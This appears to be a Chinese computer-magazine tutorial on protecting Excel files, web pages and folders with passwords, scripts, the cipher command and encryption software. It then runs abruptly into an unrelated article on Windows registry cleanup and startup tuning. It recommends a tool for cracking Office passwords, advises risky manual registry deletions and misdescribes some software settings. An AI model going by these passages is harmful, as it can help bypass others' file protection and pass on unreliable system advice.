在 “保护工作表” 对话框中有一个文本框，用来提示设置保护密码，而在 “允许此工作表的所有用户进行” 列表中又有多个复选框可供选择，这些复选框是用来设置保护的功能，如选择 “插入列” 复选框，那如果没有保护工作表的密码就不能在工作表中插入列。如果需要完全限制工作表的功能，可全选这些复选框。

在对工作表进行加密后，会发现当前工作表中的所有操作都会被拒绝执行。如果要取消工作表的保护，可依次选择 “工具” -> “保护” -> “撤消工作表保护”，在打开的 “撤消工作表保护” 对话框中输入保护密码即可。

另外，当一个 Excel 文件中有多个工作表时，如应用了保护工作表功能，也仅仅是对相应的工作表进行保护，其他工作表是不受保护限制的。

### 2. 保护 Excel 工作簿

如果我们不希望别人采取前面的方法整体移动或复制工作表，我们就将工作簿保护起来。当设置了保护工作簿后，在工作表名称上单击鼠标右键，在弹出的菜单中会发现 “插入”、“删除” 和 “重命名” 这几个菜单都处于灰色不可用状态（如图 11）。


依次选择 “工具” -> “保护” -> “保护工作簿” 命令，打开 “保护工作簿” 对话框。选择 “结构” 和 “窗口” 复选框，然后在 “密码” 文本框中输入保护密码即可。

若需要撤销对工作簿的保护，可依次选择 “工具” -> “保护” -> “撤消工作簿保护” 命令，然后在打开的对话框中输入保护密码。

### 3. 用宏加密 Excel

保护工作表和保护工作簿是 Excel 中最常用的加密方式，而除此之外，同样可以使用宏来对 Excel 进行加密，不过难度相对较大，因为需要编写代码。

###### （1）设置工作表访问密码

在 Excel 中提供了保护工作表的功能，其目的是限制工作表中的一些功能应用，接下来说到的工作表加密是为工作表设置一个访问密码，若没有正确的密码则不能访问该工作表，而转到其他工作表中。具体操作步骤如下：

- **第一步：**
  依次选择 “工具” -> “宏” -> “Visual Basic 编辑器”，打开工程资源管理器。

- **第二步：**
  在 “工程” 列表中双击 Sheet1 工作表，对该表进行加密。接着在代码窗口左上角的列表中选择 “Worksheet”，然后在右上角的列表中选择 “Activate”。

- **第三步：**
  此时在代码窗口中输入如下代码：

  ```
  Private Sub Worksheet_Activate()
      Sheets("sheet1").Cells.Font.ColorIndex = 2 '设置工作表中的文字颜色设为白色
      If Application.InputBox(" 请输入密码:") = 123 Then '判断输入的密码是否正确，其中 123 为密码，可自定
          Range("A1").Select
          ActiveSheet.Cells.Font.ColorIndex = 56
          ' 如果密码正确，则将工作表中的文字颜色设为黑色
      Else
          MsgBox " 密码错误，即将退出!"
          Sheets("sheet2").Select '如果密码错误，则转到 sheet2 工作表中
      End If
  End Sub
  ```

  以上这段代码的作用是，当对 sheet1 工作表进行访问时，Excel 会弹出一个对话框提示输入代码中预设的密码，由于在弹出这个对话框时 sheet1 工作表处于可见状态，因此将工作表中的文字颜色设置为白色。如果用户输入了正确的密码，则将工作表的文字颜色设置为黑色，如果输入的密码不正确，则转到 sheet2 工作表中。

###### （2）另类加密

以上是通过弹出对话框的形式来提醒用户输入正确的密码，下面再介绍一种另类的加密形式。其实现原理是当访问加密工作表时，隐藏工作表中的所有显示。当用户在指定的工作表单元格中输入正确的密码后，才显示工作表中的内容。

将以上的代码修改如下：

```
Private Sub Worksheet_Activate()
    Sheets("sheet1").Cells.Font.ColorIndex = 2 '设置文字颜色为白色
    If Sheets("sheet2").Cells(1, 1) = 123 Then
        Range("A1").Select
        ActiveSheet.Cells.Font.ColorIndex = 56
        ' 设置文字颜色为黑色
    End If
End Sub
```

在这段代码中，首先还是将sheet1工作表的文字颜色设为白色，当捕获到sheet2工作表中A1单元格中的值为123时，再将sheet1工作表中的文字颜色设为黑色。

##### 4. 破解Excel密码

如在Excel设置了访问密码，可使用Office Password Remover来进行破解。Office Password Remover是一款破解软件，它不但能解除Word密码，同样可以破解Excel密码。首先保证要破解的文件没被占用，然后在Office Password Remover中指定加密文件进行破解，破解的速度很快，但必须连接到网络。虽然这款软件也可以破解Word密码，但还是推荐使用Word Password Recovery Master来破解Word密码，因为经过测试它连接服务器相对更稳定。

#### 三、网页文档加密

制作一个网站，无疑是需要花费大量的时间和精力的。当一个功能完善、界面精美的网站制作好并发布到网络上后，辛勤劳动的成果就这样赤裸裸地呈现在了浩瀚网络中。由于对网站没有做任何保护措施，因此也使得一些抄袭者“抄”得更加彻底。对于网页加密，许多人都有自己的一套加密方式。目前在网页上也有一些相关的加密工具，其原理是将网页的HTML源码以加密密码的形式，将其转换为一堆堆乱码。或许这样是可以有效地防止网页被拷贝，但如此一来，自己在管理和编辑网页时也麻烦了许多。俗话说“知己知彼，百战不殆”，我们不妨从抄袭者的角度想一想，在拷贝网页时，首先需要将网页下载，然后再用网页编辑工具来进行修改，只要我们防止抄袭者获得网页的源文件，一切问题不都迎刃而解了么。所以在接下来我们也不打算介绍什么高深的加密技术，仅仅是为大家推荐几个保护网页的小技巧而已，如禁止在网页中使用鼠标右键，禁止网页“另存为”操作，禁止查看源文件等等。

##### 1. 了解什么是JavaScript

由于以下几种保护网页的手段都是通过JavaScript来实现的，因此在此之前就有必要对JavaScript有一个初步的了解。JavaScript是一种比较新的网页描述语言，是由Sun公司以及网景Netscape公司开发的，该语言可以被嵌入HTML的文件之中，使用它能够让你设计交互性的网页内容。举个例子，在许多网页上都能实时显示当前的日期、时间等信息，其实就是应用了JavaScript技术。除此之外，还有树形目录菜单、滚动新闻、滚动导航菜单等都可以用JavaScript来实现。JavaScript的代码可以放在网页源文件的任何一个地方，其格式大致如下：

```
<script language="javascript"> //JavaScript脚本开始
Function datashow() //定义一个函数
// 函数执行部分
<!--
......
-->
</script> //JavaScript脚本结束
```

##### 2. 利用弹出窗口封锁鼠标右键

通常在打开一个网页后，在网页中点击鼠标右键，接着在弹出的菜单中选择“查看源文件”菜单项，即可获得该网页的源代码。利用弹出窗口封锁鼠标右键的原理是，当用户在网页中点击鼠标右键后，会自动弹出一个对话框，在该对话框中点击“确定”按钮后取消鼠标右键的点击操作，这样就防止了用户从右键菜单中获取网页的源代码。在网页的<head></head>之间添加如下代码：

```
<script language="javascript">
<!--
function click() //定义一个名为click的函数
{if (event.button==2)// 如果按下了鼠标右键
{alert('本站不准使用右键，使用左键吧')}}// 弹出一个对话框，alert中的文字是对话框中的提示信息
document.onmousedown=click; // 鼠标进行点击时(包括左键和右键)，调用click函数
-->
</script>
```

以上这段代码在IE浏览器下测试通过，可以成功封锁右键功能。

##### 3. 不响应鼠标右键操作

以上的这段代码只能说可以在一定程度上禁止使用鼠标右键，对于一些上网新手，使用这一招当然绰绰有余，但碰上高手后就不灵了。要破解以上那段代码其实很简单，只需要先单击鼠标左键，不要松开，接着单击鼠标右键，网页中的右键菜单就出来了。以下介绍一个完整的禁止鼠标右键的方法，使用后不管使用什么样的方法，都不能打开网页中的右键菜单，其代码如下：

```
<script language=javascript>
<!--
if (window.Event)
document.captureEvents(Event.MOUSEUP); //捕捉鼠标按下事件
function nocontextmenu()
{
event.cancelBubble = true
event.returnValue = false;
return false;
}
function norightclick(e)
{
if (window.Event) //event代表事件的状态，例如触发
```

```markdown
event 对象的元素、鼠标的位置及状态、按下的键等等。

```
{
  if (e.which == 2 || e.which == 3)
    return false;
}
else
  if (event.button == 2 || event.button == 3) // 检测按下的鼠标键，其中值 2 表示按下了鼠标右键，值 3 表示按下了鼠标左右键
  {
    event.cancelBubble = true // 不接受所有事件的控制
    event.returnValue = false; // 不从事事件中返回值
    return false;
  }
}
document.oncontextmenu = nocontextmenu; // for IE5+
document.onmousedown = norightclick; // for all others
//-->
</script>
```

以上代码在 IE 和 Maxthon 下测试通过，在这段代码中定义了 nocontextmenu 和 norightclick 两个函数，两个函数的作用都是禁止显示右键菜单，只是针对了不同的浏览器。而在代码的最后使用了 document.oncontextmenu 和 document.onmousedown 这两个方法来调用所定义的函数，其中 oncontextmenu 方法是显示上下文菜单；onmousedown 方法是引发鼠标事件。

##### 4. 禁止通过“查看”菜单查看源文件

鼠标右键中的“查看源入口”是被封住了，但别忘了，通过选择“查看” -> “源文件”一样能获得网页的源文件。要想禁止通过这一通道来查看源文件，其方法说容易也容易，说难也难。若访问用户是一个新手，那使用简单的一句代码就可搞定，下面来看看这段代码：

```
<frame name="main" src="main.htm" scrolling="auto" target="_self">
```

这是一个 Frame 框架标记，其作用是调用一个名为“main.htm”的网页文件。“Main.htm”文件中的内容其实就是用户在浏览器中所看到的内容，例如，可在“show.htm”文件中调用以上的这段代码，当用户访问“show.htm”这个页面时，显示的就是 main.htm 文件中的内容。如果查看网页的源代码，那就只能看到以上这段代码，从而就实现了对真实网页文件源代码的隐藏。

对于网络高手，以上这个方法显然不会奏效，因为在那段代码中已经露出了真实网页文件的地址，只需要直接访问该文件即可。例如，“http://192.168.1.1/show.htm”是用户访问的页面，而“http://192.168.1.1/main.htm”则是在“show.htm”中调用的页面，那么只要访问“http://192.168.1.1/main.htm”页面，网页的所有信息就原形毕露了。

为此，又有人提出了另外一种方法，那就是利用弹出窗口来去掉菜单栏，这样用户就无法使用菜单栏中的查看源文件功能了。

这个方法也是需要创建两个网页文件，如“main.htm”文件中存放网页的实际内容，在“show.htm”文件中调用“main.htm”文件。当用户访问“show.htm”页面时，会以弹窗的方式打开“main.htm”，然后自动关闭“show.htm”页面（如图12）。


在 “show.htm” 中的代码如下：

```
<script language=javascript>
<!--
window.open("main.htm", "red", "resizable=yes,width=500,height=300");
window.close();
//-->
</script>
```

在这段代码中用到了 Windows 对象的 open 和 close 方法，其中 open 是打开一个窗口，在该段代码中设置了打开窗口的宽度为 500，高度为 300；而 close 则是关闭一个窗口。使用了这段代码后，再结合“不响应鼠标右键操作”的方法，就基本上能防止网页的源文件被查看了。

#### 四、另类文档加密解密方式

为了有效地保护电脑中的文档资料，许多人绞尽脑汁找寻各种文档加密方式。事实上，也有许多种文档加密方式可供我们选择，如利用 WinRAR 进行加密、利用命令进行加密等。下面就分别介绍这两种简单有效的加密方式。

### 1. 利用 WinRAR 借助 MP3 对文档进行加密

众所周知，WinRAR 除了可以用来压缩文件之外还可对压缩文件设置密码，但是目前针对 WinRAR 密码的破解软件多不胜数，在 WinRAR 中设置的密码就形同虚设，不能很好地对 RAR 文件资料进行保护。

我们对文档加密的目的是保护自己的重要资料，犯不着将加密的文件赤裸裸地呈现在破解者面前，我们只要对加密的文件作一定的“伪装”，这样破解者无法找到目标，文档的破解就无从谈起了。具体做法是：

首先将要加密的文件复制到 MP3 歌曲所在文件夹，然后运行 WinRAR 软件，在 WinRAR 的文件浏览窗口中定位到 MP3 歌曲所在文件夹，在其文件列表中选择加进行加密的文件，然后点击工具栏中的“添加”按钮，打开“压缩文件名和参数”对话框。

在该对话框中选择“高级”选项卡（如图13），点击“设置密码”按钮，在打开的“带密码压缩”对话框中设置加密文件的密码，然后点击“确定”按钮对文件进行加密压缩。

回到 MP3 歌曲所在文件夹，此时在该文件夹下就多了一个压缩文件，将生成的压缩文件的文件原扩展名RAR修改为MP3，或者其他音乐文件格式，如WMA等。


现在，可以双击更改扩展名后的文件，系统会自动启动相应的软件开始进行播放，这样就实现了对WinRAR压缩文件的“伪装”，该文件不仅有自己的使用密码，而且还使得破解者不易找到文件所在，不过需要注意的是加密文件不要太大，否则一首MP3的体积太大就容易引起怀疑。如果我们需要解压文件，只需要把文件扩展名重新改成RAR就可以了。

### 2. 使用 Cipher 命令对文件进行加密

大家都知道，使用DOS命令可以进行系统、网络的管理操作，但是却很少有人知道使用DOS命令还能对文件进行加密，这个命令就是Cipher。

Cipher命令是用于显示或更改NTFS分区上的目录（文件）的加密，由此可见，要使用Cipher命令进行加密，其前提是要加密文件的存放分区的文件格式应为NTFS。

```
Cipher命令的使用格式和参数如下：
CIPHER [/E | /D] [/S:directory] [/A] [/I] [/F] [/Q] [/H] [pathname]
CIPHER /K
CIPHER /R:filename
CIPHER /U [/N]
CIPHER /W:directory
CIPHER /X[:efsfile] [filename]
```

| 参数 | 作用 |
| :--- | :--- |
| /A | 在文件及目录上操作。如果父目录没有加密，当加密文件被修改后，它可能被解密。建议您给此文件和父目录加密。 |
| /D | 将指定的目录解密。会标记目录，这样随后添加的文件就不会被加密。 |
| /E | 将指定的目录加密。会标记目录，这样随后添加的文件就会被加密。 |
| /F | 强制在所有指定的对象上进行加密操作，即使这些对象已经被加密。默认地会跳过已经加密的对象。 |
| /H | 显示带隐藏或系统属性的文件。在默认方式下，会忽略这些文件。 |
| /I | 即使发生错误也继续执行指定的操作。在默认方式下，CIPHER在遇到错误时会停止。 |
| /K | 为运行CIPHER的用户创建新的加密密钥。如果选择了此选项，会忽略所有其他选项。 |
| /N | 此选项只能与“/U”同时使用。这将阻止更新密钥。此选项用于查找本地磁盘上所有加密文件。 |
| /Q | 只报告最重要的信息。 |
| /R | 生成一个EFS恢复代理密钥和证书，然后将它们写入一个“.PFX”文件(包含证书和私钥)和一个“.CER”文件(只包含证书)。管理员可以将“.CER”的内容添加到EFS恢复策略，从而为用户创建恢复代理并导入“.PFX”来恢复单独文件。 |
| /S | 在已知目录和所有子目录执行指定的操作。 |
| /U | 尝试包括本地磁盘上所有加密的文件。如果用户文件加密密钥或恢复代理的密钥改变，这会将其更新为当前的密钥。除了“/N”外，此选项不能与其他选项一起使用。 |
| /W | 从整个卷上所有没有使用的磁盘空间删除数据。如果选择了此选项，会忽略其他选项。指定的目录可以位于本地卷上的任意位置。如果它是另一个卷上一个目录的装入点，此卷上的数据将被删除。 |
| /X | 将EFS证书和密钥备份成文件的文件名。如果提供了EFS文件，将会备份当前用户的、用于加密此文件的证书。否则，将会备份用户当前的EFS证书和密钥。 |

* directory: 一个目录路径。
* filename: 没有扩展名的一个文件名。
* pathname: 指定一个模式、文件或目录。
* Efsfile: 一个加密的文件路径。

###### (1) 加密目录文件夹和文件

首先确保要加密的文件夹或文件处于非使用状态，接着依次选择“开始”→“程序”→“附件”→“命令提示符”，进入命令行状态。例如，现在要对F盘根目录下的study文件夹进行加密，首先转到“F:\>”提示符下，然后在命令提示符下执行“cipher /e study”命令（如图14），接着屏幕上会提示“正在加密F:\中的目录”，当加密完成后，屏幕上又会显示“1个目录中1个目录被加密”的提示信息。


例如，要加密study目录下的所有子目录，可在命令提示符下执行“cipher /e /s:study”命令；要加密study目录下的“abc.chm”文件，可在命令提示符下执行“cipher /e /a study\abc.chm”命令；要加密该目录下的所有文件，可在命令提示符下执行“cipher /e /a study\*”命令即可。

###### (2) 查询加密目录和加密文件

当对多个目录和子目录进行加密后，可使用Cipher命令来查询电脑中的加密目录（文件）列表，在命令提示符下执行cipher study命令，然后系统提示“E study”信息，说明study目录已被加密。要查询EFS目录中哪些文件已被加密，执行“cipher efs\*”命令即可。

###### (3) 解密目录文件夹和文件

在命令提示符窗口中执行“cipher /d study”命令后，就可将study目录解密。要解密study目录下的所有子目录，可在命令提示符下执行“cipher /d /s:efs”命令。
要解密study目录“abc.chm”文件，可在命令提示符下执行“cipher /d /a study\abc.chm”命令，解密该目录所有文件，可在命令提示符下执行“cipher /d /a study\*”命令即可。

有文件，执行 “cipher /d /a study\*” 命令即可。

###### (4) 导出证书和私钥

使用 Cipher 命令对目录和文件进行加密，其作用是防止其他用户的计算机访问该文件或目录。但使用 Cipher 命令对目录和文件进行加密后，就会有这样一个问题，那就是如果加密文件所在系统需要重装，那么系统在重装后，即便是在同一台计算机上，也是不能访问加密文件或目录的。因此，在使用 Cipher 命令对文件或目录进行加密后，还需要备份用户的证书和私钥。
在命令提示符下执行 “cipher /R:LHS”，其中，LHS 为导出文件的文件名，接着系统提示 “请键入密码来保护 PFX 文件：”，两次输入密码后，就在所在目录下生成 “LHS.CER” 和 “LHS.PFX” 这 2 个文件。其中，“LHS.CER” 为用户证书，“LHS.PFX” 为证书和密钥文件。
一旦用户丢失了证书和密钥无法解密 EFS 加密文件，只要将 “LHS.CER” 和 “LHS.PFX” 文件导入即可。

### 第三篇 使用软件进行加密

在对系统和文档进行加密时，都是使用其自身的功能，除此之外我们还可以使用第三方加密软件来对文件和文件夹进行加密，下面将向大家介绍几款简单实用的加密软件。

### 一、图片加密我用 CryptaPix

CryptaPix 是一款图像浏览软件，它可以管理和浏览电脑中的 JPG、GIF、PNG、PCX、TIF 和 BMP 图像，图像浏览软件应该具有的调整图像大小、旋转、常见图像格式转换、全屏幕幻灯片等功能，它都有。其与众不同的地方在于特有的安全加密功能，让你可以使用蓝鱼（Blowfish，一种加密方式）加密来保护你的私人图像文件不被人偷看！

首先运行 CryptaPix，在程序主界面中依次选择 “Options” → “Prefereces” 命令，打开 “Prefereces” 对话框。在该对话框中可对图片播放效果（Transition）、播放延迟时间（Frame delay）、图片显示的边框大小（Bar width）等进行设置。在 “Prefereces” 对话框中还有一个重要的设置功能，那就是图片加密设置（File wipe method），在 “File wipe method” 选项区域中有 “1-pass” 和 “3-pass DOD” 两个单选按钮，选中 “1-pass” 单选按钮可设置一个图片密码，而选择 “3-pass DOD” 单选按钮则可以同时设置三个不同的图片密码，以实现图片的多重加密。在 “Password timeout” 微调按钮中还可对图片密码的超时时间进行设置，如果输入密码的时间超过了设置时间，会提示密码输入超时，最后设置加密文件的保存路径即可。

返回程序主界面，选择 “File Mgr” 选项卡（如图 15），在该选项卡下有三个选项区域，其中：最左面的列表是显示驱动器路径，用于选择驱动器和文件夹；中间的列表是显示文件列表的，在该列表中只会显示图片文件，而不会显示其他的文件；在最右边的空白区域则是用来预览图片的。


在中间的列表中双击一个图片，就会在右边的空白区域中对该图片进行预览。
在图片列表中选择一个图片或先按住 Ctrl 键，然后再用鼠标选择多个图片，也可直接按 “Ctrl+A” 组合键同时选择图片列表中的所有图片，接着在菜单栏中依次选择 “File” → “Encrypt” 命令，打开 “Encrypt” 对话框。在该对话框中可设置加密方式以及是否包括 WAV 声音文件的加密，在 “Source Files” 选项区域中可选择加密后原文件是否保留还是删除等，最后分别在 “Password” 和 “Confirm” 文本框中输入加密的密码，然后点击 “OK” 按钮。接着程序会弹出一个 “Set target directory” 对话框，在该对话框中设置加密图片的目标路径，再点击 “OK” 按钮，在加密完成后程序会提示加密工作完成。

此时打开 “target target directory” 对话框中所设置的目录路径，会发现多了一些扩展名为 “.cpx” 的文件，这些就是经过 CryptaPix 加密的图片文件了。

那么，如何才能查看经过加密的图片呢？
同样还是在 CryptaPix 的 “File Mgr” 选项卡中，首先将文件路径定位到加密图片的存放文件夹下，此时在中间的文件列表中会显示出扩展名为 “.cpx” 的加密图片文件，双击列表中的 “.cpx” 文件，程序会弹出一个对话框提示输入密码，此时只要输入加密密码就能在右则的预览区域中看到图片的效果了。

如果想对加密图片进行解密，可首先选择需要解密的图片，接着在菜单栏中依次选择 “File” → “Decrypt” 命令，在打开的 “Decrypt” 对话框中点击 “OK” 按钮，接着程序又会弹出一个 “Set target directory” 对话框，在该对话框中设置解密后图片的存放路径，然后点击 “OK” 按钮即可。

#### 二、文件加锁王，将文件保护进行到底

网络上的文件加密软件很多，到华军软件园搜索了一下这方面的软件，在下载排行中发现 “文件加锁王” 这款软件的下载率极高。这是一款界面不错的软件，当然除了界面之外其功能也相当不错，其不仅包括一些常见的文件夹加密方式，而且还可以对系统、硬盘、浏览器等进行保护。

##### 1. 初探文件加锁王

在运行了文件加锁王之后，程序会打开一个“登录窗口”对话框，要求输入软件登录密码（初始密码为123）。进行到程序主界面后，程序所有的功能就能一览无余了（如图16），从这点可以看出这个软件的操作应该是很简单的，那就先来小试牛刀吧！


在程序主界面中点击“浏览文件夹”图形按钮选择一个要加密的文件夹，随后程序会弹出一个“设置密码”对话框，输入密码然后点击“确定”按钮。呵呵～现在看看效果如何。找到这个文件夹所在的位置并双击，又出现了“登录窗口”对话框，不过现在多了个“进入”和“解锁”按钮。“解锁”功能咱地球人都知道是啥用，点“进入”按钮试试。点击后程序打开了一个“文件夹加密管理器”窗口，在此窗口中不仅可以删除加密文件夹中的内容，而且可以直接打开文件进行编辑。

> **小提示：** 在使用文件夹加密操作时不需要每次都登陆到软件中进行设置，只需要在要加密的文件夹上单击鼠标右键，然后选择“加（解）锁”菜单项就可以了。

##### 2. 硬盘加密

在文件加锁王程序中可以隐藏和加锁驱动器，也算是加密的一种形式吧，除此之外还可以加密USB接口。在程序主界面中点击“硬盘加密”工具按钮打开“硬盘加密”对话框，在该对话框中选择“禁止使用USB设备或U盘驱动器……”即可，而对于驱动器的隐藏和加锁操作也是非常的简单，只需要选择相应驱动器前的复选框即可。

##### 3. 系统、浏览器保护及其他

这个功能在一些系统管理软件中似曾相识，它可以隐藏开始菜单、修复浏览器、清除浏览记录，要使用此功能可在程序主界面中点击“高级设置”即可。在该软件中还有一个方便的功能，那就是“系统临时锁”，这个功能有点儿类似于屏幕保护，但该功能还有一些纰漏，如没有限制组合键使用等。但总的来说这款软件还是能满足一般的需求的，该软件最大的特点是操作加密文件夹时不用先解密，而是直接就可以进行操作了。

#### 三、易通文件夹锁，不一样的加密方式

对于经常在公共场所有电脑的人来说，总是将一些私人资料放到不为人知的小角落，唯恐隐私泄漏。其万全之策是通过加密工具来实现对私人资料的加密，但是如今网上搜索到的大部分文件加密工具，功能几乎雷同，除了给文件夹设置访问密码外，没有什么其他功能值得可圈可点，其加密文件的移动性也不够强，而接下来要说到的这个软件却是加密工具中的另类！

“易通文件夹锁2006”是易通软件公司最新版本的一个文件夹加密软件，其软件的功用就是为了保护电脑中的重要资料不被随意查看、修改和删除，但这款软件的独特之处在于它可以以加密和隐藏的形式来保护文件，另外增强了加密文件的移动性，可在移动保护后的文件夹内自动生成解除程序。

##### 1. 文件、文件夹加锁

文件和文件夹加锁是每一个加密软件都有的功能，在易通文件夹锁2006中的操作非常的简单。运行了程序后，在程序界面中点击“选择文件夹”按钮，选择要加密的文件夹并设置加密密码即可（如图17）。除了直接给文件夹加密以外，隐藏文件夹也是易通文件夹锁的一种加密方式。在此说的隐藏文件夹不单纯的指给文件夹加上隐藏属性，被隐藏后的文件夹即使将系统设置成显示所有文件夹也是不见其踪。而要恢复被隐藏的文件夹就只有在程序中双击该文件夹并输入加密密码才可以打开或是解锁。


##### 2. 超强文件夹加锁

所谓的“超强文件夹加锁”功能其最大的特点在于移动性较强，简单地说就是在一台电脑上用易通文件夹锁加密后，将其拷贝到另外一台电脑上，即使在该电脑上没有安装易通文件夹锁也能进行解锁。要使用该功能，首先点击程序界面右上方的“增强加锁”图形按钮，接着点击“选择文件夹”按钮选择一个要进行移动加密的文件夹，然后点击“移动加密”按钮并输入加密密码即可。在使用此功能时值得注意的是，在移动保护之前需要先将准备移动加密的文件夹拷贝到移动存储设备上，然后再点击“选择文件夹”按钮进行加密。

##### 3. 软件程序加锁

先前所说的超强文件夹加锁功能是易通文件夹锁的一大特点，而对软件程序进行加锁则又是其一大亮点。该功能通过对软件的执行程序文件进行加密，从而防止其他人随便使用电脑中的软件程序，而要使用加密的程序则需要使用密码才行。首先点击“增强加锁”图形按钮，接着在其界面的下方选择“程序锁”选项卡，选择要进行加密程序的执行文件所在的路径，然后设置加密密码即可。
```电脑的‘环保’ 减少你的资源占用

文/水月子

无论经过怎么样的超频和优化，我们电脑里面的资源都是有限的，譬如 CPU 的占用率，内存的使用率等等，无论多么大的内存，总会有不够用的时候。因此在日常的使用当中，我们应该让自己更加善于利用有限的资源，同时减少没有必要的资源支出，电脑才会一直保持高速、稳定的状态，而且寿命也会更长，能耗也更加少。下面主要从我们的软件系统出发，看看该怎么样来进行一个“系统环保”行动。

## 一、减少 Windows 系统资源占用

（注册表减肥、删除不必要的启动程序，软件完全卸载）

说到资源占用，胃口最大的莫过于 Windows 系统了，由于 Windows 系统是面向全世界那么多的用户，不可能为我们个人进行什么优化，里面运行的东西很多也是我们所不需要的，因此我们首先要从 Windows 开始，把珍贵的系统资源“抢”回来。

#### 问题一

我的系统越来越慢了，按照网上的方法查看了系统资源占用，发现注册表文件体积非常大，请问有方法把注册表的体积减下去吗？

答：注册表的清理我们可以借助第三方的软件，譬如超级兔子注册表优化软件、RegCleaner、Notron Utility、Windows 优化大师等，这些软件能够查找 Windows 注册表中的垃圾并给予清除，使系统清洁高效。但站在学习电脑知识的高度上，我是赞成大家自己来手动清理注册表的。

-   首先，我们要清理多余的窗口配色方案。可打开[HKEY_CURRENT_USER\ControlPanel\Appearance\Schemes]，通常只保留“Windows 标准”即可，更直观的方法是打开“控制面板 / 显示 / 外观”，在“窗口配色方案”下拉列表中进行删除。
-   删除多余的时区，可打开[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Time Zones]，因为我们只使用北京时间，可以删除其余的时区设置。
-   清除国家列表，在注册表的国家列表中包括了全世界 100 多个国家和地区，习惯是只留下“中国”，全部删除也无妨。可依次打开[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Telephony\Country List]，删除多余的国家代码。
-   删除多余的语言代码表，留下“英语（美国）”、“中文（中国）”即可。打开[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Nls\Locale]，删除多余的语言代码，另外有需要的话也可以把繁体中文（Big5）的语言代码保留下来。
-   删除“运行”中的程序执行记录，方法为打开[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU]，删除下面的内容。
-   删除失效的文件关联，注册表文件有关文件关联的内容存储在 HKEY_CLASSES_ROOT 键下。该主键可以大致看成两部分。第一部分（按字母顺序 A ～ Z 排列）用来定义文件类型。第二部分与第一部分一一对应，用于记录打开文件的应用程序。一般来说，在第二部分中展开可疑键值后，如果在子键 Command 下无内容，说明该键为空键，可以删除。更直观的方法是打开“文件管理器 / 查看 / 选项 / 文件类型”，这其实可以看作是 HKEY_CLASSES_ROOT 的一个图形界面，重点查看那些使用“通用文件图标”（白底上带一个 Windows 标志）的项。如果确信用来打开文件的程序已经不存在，可将该项删除。

最后我们可以对注册表进行压缩整理，这样就能够让它的体积大大缩小。首先启动机器，注意要进入纯DOS状态，然后使用 Regedit 配合参数 e 导出注册表文件：Regedit /e newreg.reg（导出的文件名，可自由设定）。接着使用 Regedit 配合参数 c 重写注册表文件：Regedit /c newreg.reg，执行后会有一个指令写入进程的百分比。隔上一段时间用这个方法压缩一下注册表文件即可较好地控制其大小，但要获得更好的效果（压缩的比例更大），就需要在压缩前用注册表清理工具对注册表文件作一番大扫除。

#### 问题二

我感觉 Windows 的启动速度比较慢，而且每次启动之后都会自动打开一大堆软件，请问有什么办法可以让这些软件不自动运行？

答：在“开始→运行”里面输入 msconfig 并按回车，很快你就会进入“系统配置实用程序”，点击“启动”标签切换到如图 1 的窗口。图中列出来的就是你的系统当前启动列表之中的所有程序，而前面的方框勾选上的是启动时会加载的，反之就是启动的时候不会加载的。如果我们让某些软件在启动的时候不加载，只要清除掉它前面的勾即可。

| 启动项目 | 命令 | 位置 |
|----------|------|------|
| RvCpl | RUNDLL32.EXE C:\... | HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current... |
| cftmon | "C:\Program Files\..." | HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current... |

-   （1）去掉菜单延迟
    有时候我们感觉菜单很慢是因为菜单的延迟问题，把滑出菜单时的延迟去掉，可以在一定程度上加快XP。首先打开注册表编辑器，然后展开分支：[HKEY_CURRENT_USER\Control Panel\Desktop]，找到“MenuShowDelay”，只需把值改为0就行了，修改完成之后重启计算机才会生效。

#### 问题三

我启动的时候加载的软件已经很少了，但是启动速度依旧不能令我满意，是什么原因呢？

答：上面我介绍的是从软件角度出发，一般都是非常见效的，但如果你的启动速度依旧很慢，可能就和硬件有关了。在Windows XP系统的启动过程中，有一个重要的阶段就是检测、设置硬件，收集总线和显卡、通讯端口、硬盘、软盘等硬件信息。减少相关设备的种类和类型也许可以减少启动时间，但显然这是不现实的。然而一个大家常常忽略的问题却可能带来转机。如果你打开“设备管理器”你就会看到，在系统列出的设备中，有一些是你根本不会使用的，有的是你很少使用的。既然如此，我们何不停用此类设备，加快启动速度呢？而有一些设备相信大多数朋友都不会选用的：打印机端口（LPT），对大多数个人用户而言，直接连接打印机的机会很少，当然这个打印机端口也就没什么用了；通讯端口COM1和COM2，大多数主板都提供了两个COM接口，分别为COM1和COM2，主要作用是连接串行鼠标和外置调制解调器等设备。但随着PS/2和USB接口的盛行，如今它们已经受到冷落，如果你不需要，停用完全可以；标准游戏端口，这个端口是用来接入游戏手柄之类的设备，对没有此类需求的用户来讲，完全是一个摆设；除了这些很少使用的设备之外，如果你没有软驱、光驱，或没有网卡，完全可以将其停用，或者在不使用时将其停用，使用时再将它们启用。

另外还有一个容易被我们忽略的问题，那就是IDE通道。系统在通常情况下有两个IDE通道，能连接四个设备。但通常我们只使用两个设备：硬盘和光驱。而在默认状况下，系统会对四个设备进行检测，造成启动时间的延迟。其实我们可以明确地告诉系统到底有几个设备，免去检测的时间。首先打开“设备管理器”，展开“IDE ATA/ATAPI控制器”，双击打开“主要IDE通道”属性，点“高级设置”选项卡，设备类型如果可以选择“无”就选为“无”（表明没有设备），点“确定”完成设置，同样的方法设置“次要IDE通道”。经过这项的设置后，系统的启动速度会得到比较大的改观，甚至比停用上面提到的设备的效果更为明显，不过如果你的设备是SATA的话就不会有太大作用了。

-   （2）指定进程次序
    有时候因为硬件性能的关系，在运行多个任务的时候，我们感觉当前的程序非常慢，这时候我们可以在任务管理器里面设置优先级，让当前程序获得更多的CPU资源，这样你就不会觉得慢了。同时按下Control + Alt + Delete三个键，在任务管理器里面切换到“进程”选项卡，可以看到一个对话框，在这里可以看到目前正在运行的所有进程。如果要为一个程序分配更多的进程时间，如3D Studio Max，只需右键点击这个进程，然后在弹出菜单中选择再把鼠标指针向下移动到“设置优先级”，然后选择你想要这个程序处在的哪个优先级即可。缺省状态下所有的程序都是“标准”，你可以设置为“高”。如果你要做别的事情，可以把3DMAX设为“标准”，当你不干别的活的时候，可以将它的优先级提升为最高的“实时”，这样可以让计算机更专注更快速地处理3D处理。

-   （3）取消Windows XP专业版中的保留带宽
